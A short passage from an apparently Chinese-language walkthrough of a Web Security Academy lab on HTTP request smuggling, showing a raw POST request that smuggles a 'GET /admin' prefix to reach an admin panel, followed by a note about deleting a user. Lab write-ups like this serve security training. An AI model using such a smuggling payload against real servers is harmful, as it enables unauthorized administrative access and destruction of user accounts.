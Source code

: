 [![](assets/1705301772-127e1371199bf8f9ab00bc7d44b7559e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182648-6c872928-b2c7-1.png)  
随后在burpsuite中将走私前缀的路径更改为指向/admin，再次按顺序发送请求观察第二个请求是否已成功访问管理面板

```plain
POST /resources/images/blog.svg HTTP/1.1
Host: 0a8c00d004c4ccae80e076ac00ff00b0.web-security-academy.net
Cookie: session=IWGFngB34izV5bdhofMgnRjh8NOICpf4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```

[![](assets/1705301772-f70cc9dfc6af76b45a7208a0728467df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182709-7964e144-b2c7-1.png)  
[![](assets/1705301772-c9ef5635fd682acb4e9582e1fb26e77d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114182719-7f3e15c2-b2c7-1.png)  
随后调用接口删除用户
